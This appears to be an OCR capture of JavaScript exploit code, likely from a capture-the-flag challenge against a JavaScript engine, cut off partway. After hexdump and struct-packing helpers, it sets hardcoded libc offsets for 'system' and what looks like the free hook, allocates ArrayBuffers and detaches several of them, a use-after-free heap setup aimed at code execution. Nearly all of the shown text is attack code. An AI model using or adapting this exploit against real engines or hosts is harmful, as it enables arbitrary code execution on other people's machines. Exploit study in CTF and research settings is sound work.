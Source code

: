 ```js
    var lines = [];
    for (var i = 0; i < data.length; i += 16) {
        var chunk = data.slice(i, i+16);
        var parts = chunk.map(hex);
        if (parts.length > 8)
            parts.splice(8, 0, ' ');
        lines.push(parts.join(' '));
    }

    return lines.join('\n');
}

// Simplified version of the similarly named python module.
var Struct = (function() {
    // Allocate these once to avoid unecessary heap allocations during pack/unpack operations.
    var buffer      = new ArrayBuffer(8);
    var byteView    = new Uint8Array(buffer);
    var uint32View  = new Uint32Array(buffer);
    var float64View = new Float64Array(buffer);

    return {
        pack: function(type, value) {
            var view = type;        // See below
            view[0] = value;
            return new Uint8Array(buffer, 0, type.BYTES_PER_ELEMENT);
        },

        unpack: function(type, bytes) {
            if (bytes.length !== type.BYTES_PER_ELEMENT)
                throw Error("Invalid bytearray");

            var view = type;        // See below
            byteView.set(bytes);
            return view[0];
        },

        // Available types.
        int8:    byteView,
        int32:   uint32View,
        float64: float64View
    };
})();



var system_off = 0x4f550
var fh_off = 0x3ed8e8
var fh = 0
var system = 0
var a = new ArrayBuffer(0x350)
var b = new ArrayBuffer(0x350)
var c = new ArrayBuffer(0x350)
var d = new ArrayBuffer(0x350)
var e = new ArrayBuffer(0x350)
var f = new ArrayBuffer(0x350)
var g = new ArrayBuffer(0x350)
var h = new ArrayBuffer(0x350)
var dv = new DataView(a)
var dvv = new DataView(h)
dv.setInt32(16, 0x41424344)
ArrayBufferDetach(b)
ArrayBufferDetach(c)
ArrayBufferDetach(d)
```